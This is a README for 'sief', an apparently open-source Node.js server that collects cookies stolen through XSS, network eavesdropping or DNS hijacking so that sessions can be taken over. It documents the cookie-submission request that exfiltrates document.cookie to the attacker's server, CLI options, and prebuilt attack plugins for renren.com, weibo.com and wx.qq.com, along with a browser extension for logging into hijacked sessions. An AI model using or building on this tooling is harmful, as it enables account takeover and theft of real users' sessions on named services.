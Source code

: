 sief
=============

NOTICE: This project is under development, nut ready to use yet.

A server listening to cookie submission to hijack session, supporting writing plugins for site specific attacks.

    sief = thief + safe

This is a project to steal sessions, and to make your site safe.

## Features

* Request to an image to upload cookies stolen by xss/network eavsdropping/dns hijack/other.
* Log persistence.
* Prebuilt plugins to attack renren.com, weibo.com, wx.qq.com.
* Write your own plugin to do other attacks you desired.
* View real-time cookie submissions and login those hijacked sessions directly in browser with [Sief Chrome Extension](https://github.com/shaoshuai0102/sief-chrome-extension).
* Ignore cookie submissions if the same one is received before during a specified period of time to protect your server.

## Install

1. Install PhantomJS

2. Install sief

   `npm install sief -g`

## Usage

### Server

    Usage: sief [options] <plugin|dir ...>

    Options:

      -h, --help                   output usage information
      -V, --version                output the version number
      -i, --ignore-time [seconds]  specify seconds during which same requests will be ignored [300]
      -p, --port [port]            specify the port sief server listening to [3000]
      -l, --log-level [level]      set log level [INFO]


### Submit cookies

    GET /xxx.png?cookie=#cookies#&referer=#referer#&domain=#domani#

Parameters:

* `cookies` - Required. Encode cookies first, for example, `encodeURIComponent(document.cookies)`
* `referer` - If the attack is an xss exploit, referer will be retrieved from `headers.referer` directly, otherwise, specifiy it in query string.
* `domain` - Domain is calculated from referer, defaults to main domain, for example `qq.com`. IF you want to fire a attack to its subdomain(`wx.qq.com`), specify it in query string.